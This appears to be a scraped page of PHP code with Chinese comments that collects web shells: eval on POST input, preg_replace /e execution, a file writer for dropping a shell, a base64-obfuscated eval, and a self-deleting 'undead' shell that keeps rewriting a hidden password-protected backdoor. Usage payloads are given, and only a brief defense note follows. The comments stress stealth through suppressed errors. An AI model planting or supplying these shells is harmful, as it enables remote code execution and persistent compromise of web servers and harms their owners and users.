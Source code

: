 ```php
$c = $a.$b;
$c($_POST['a']);
?>
    
// 正则表达式替换
<?php
function fun(){
    return $_POST['a'];
}

@preg_replace("haha/e", fun(), "haha");	// 把后面字符中含有haha的替换成fun()并且执行
// @的目的是让php不输出错误，增加隐蔽功能


<?php
if(isset($_POST['file'])){
	$d = 'data';
	$$d = $_POST['text'];
	$f = 'fp';
	$$f = fopen($_POST['file'], 'wb');
	echo fwrite($fp, $data)?'save success':'save fail';
	fclose($fp);
}
?>
// post的参数为file=nn.php&text=... ,内容可以为一句话木马
// 之后会在当前文件下创建一个叫nn.php的文件并写入一句话。
    
    
<?php 
@$a=$_POST['Hello'];
if(isset($a)){
  //[@eval(base64_decode($_POST[z0]));]
  //@eval(base64_decode($_POST[z0]));
  //\\1指的是(.*)
  //W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=
  @preg_replace("/\[(.*)\]/e", '\\1', base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10='));
}				// 正则表达式的意思是对于第三个参数，从头到尾匹配如果有遇到[]的，将整个替换为第二个参数的内容(\1代表的是组的下标为1的内容，第一个\为转义字符，即[]内的内容)
?>
使用方法：
Hello=aaa&z0=cGhwaW5mbygpOw==
    
<?php 
//进程运行，只有把进程干掉，才可以删除我
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file="./.index.php";
$code='<?php if(md5($_POST["pass"])=="01ddae4032e17a1c338baac9c4322b30"){@eval($_POST[a]);}';
while(1){
  file_put_contents($file, $code);
  usleep(5000);
}
?> 
使用方法，执行muma.php
pass=haha123&a=phpinfo();

防御方法：
重启php服务器，可以删除
使用竞争写入
创建一个.index.php名字的文件夹
```